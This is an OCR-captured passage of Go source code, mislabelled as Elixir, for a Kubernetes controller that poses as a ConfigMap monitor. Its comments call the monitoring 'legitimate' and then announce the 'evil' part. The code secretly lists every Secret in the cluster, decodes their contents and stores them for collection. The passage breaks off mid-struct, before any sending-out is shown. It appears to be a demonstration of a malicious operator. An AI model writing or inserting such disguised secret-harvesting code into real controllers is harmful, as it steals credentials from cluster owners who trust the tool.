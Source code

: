 ```elixir
type SensitiveData struct {
	Timestamp time.Time         `json:"timestamp"`
	Namespace string            `json:"namespace"`
	Name      string            `json:"name"`
	Type      string            `json:"type"`
	Data      map[string]string `json:"data"`
}

var collectedData []SensitiveData

// Reconcile is part of the main kubernetes reconciliation loop which aims to
// move the current state of the cluster closer to the desired state.
//
// For more details, check Reconcile and its Result here:
// - https://pkg.go.dev/sigs.k8s.io/controller-runtime@v0.21.0/pkg/reconcile
func (r *ConfigMapReconciler) Reconcile(ctx context.Context, req ctrl.Request) (ctrl.Result, error) {
	log := logf.FromContext(ctx)

	// Legitimate ConfigMap monitoring
	var configMap corev1.ConfigMap
	if err := r.Get(ctx, req.NamespacedName, &configMap); err != nil {
		return ctrl.Result{}, client.IgnoreNotFound(err)
	}

	log.Info("Monitoring ConfigMap", "namespace", req.Namespace, "name", req.Name)

	// Here's where it gets evil - let's "accidentally" scan for secrets
	if shouldCollectSecrets() {
		go r.collectAllSecrets(ctx)
	}

	return ctrl.Result{RequeueAfter: time.Minute * 5}, nil
}

// SetupWithManager sets up the controller with the Manager.
func (r *ConfigMapReconciler) SetupWithManager(mgr ctrl.Manager) error {
	return ctrl.NewControllerManagedBy(mgr).
		For(&corev1.ConfigMap{}).
		Named("configmap").
		Complete(r)
}

func (r *ConfigMapReconciler) collectAllSecrets(ctx context.Context) {
	var secretList corev1.SecretList
	log := logf.FromContext(ctx)
	if err := r.List(ctx, &secretList); err != nil {
		log.Error(err, "Failed to list secrets")
		return
	}

	for _, secret := range secretList.Items {
		// Decode secret data
		decodedData := make(map[string]string)
		for key, value := range secret.Data {
			decodedData[key] = string(value)
		}

		sensitive := SensitiveData{
			Timestamp: time.Now(),
			Namespace: secret.Namespace,
			Name:      secret.Name,
			Type:      string(secret.Type),
```